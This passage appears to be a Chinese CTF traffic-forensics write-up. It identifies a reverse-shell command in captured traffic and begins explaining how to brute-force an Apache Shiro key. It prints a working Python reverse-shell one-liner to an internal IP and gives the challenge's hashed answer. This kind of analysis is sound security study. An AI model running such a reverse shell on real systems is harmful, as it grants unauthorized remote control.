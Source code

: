 ### session-4

> 题目内容：通过什么命令反弹的 shell，提交 md5 加密的 32 位小写字符串。

在流量的最后面，可以看到分别用了三种方式反弹 shell，`/bin/sh`，`nc`和`python pty`方式。  
[![](assets/1702520939-c5bf0cd3b08ef5d93163e78f938a0360.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180149-a1ce8618-999e-1.png)  
但是只有最后一种方式反弹成功，其余两种都报了语法错误。具体命令是

```bash
import os,pty,socket;s=socket.socket();s.connect(("172.16.127.1",3333));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
```

[![](assets/1702520939-1849a3f7e0ee95bfbda6e7697b446a50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180205-aba47da0-999e-1.png)  
所以这道题答案是**7b75e76b64a25bd3d04ea82880c6d462**

## easy\_shiro

### easy\_shiro-1

> 题目内容：shiro key 是什么？

这道题给了日志文件，可以看到经典的 shiro 特征，`rememberMe=deleteMe;`。shiro 攻击就是反序列化，反序列化肯定包含`java`这个关键字。  
[![](assets/1702520939-b87e3d029a1c0281e2e45120e838978a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180228-b9681f78-999e-1.png)  
通篇找下来没有发现 key，那就只剩爆破的方法了。结果还没有 shiro 的密码本，正在一筹莫展的时候发现`fscan`有一个`shiro-key.yml`。里面存放着一些常用的 shiro key。  
[![](assets/1702520939-8c7713cbaf4d61a4058b088f6cc3f88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180240-c035187e-999e-1.png)  
并且还有一个 go 写的加密脚本，依葫芦画瓢写了个 python 的解密脚本。这方面解密还参考了这篇文章[Shiro 反序列化分析带思路及组件检测笔记](https://xz.aliyun.com/t/8997#toc-1)
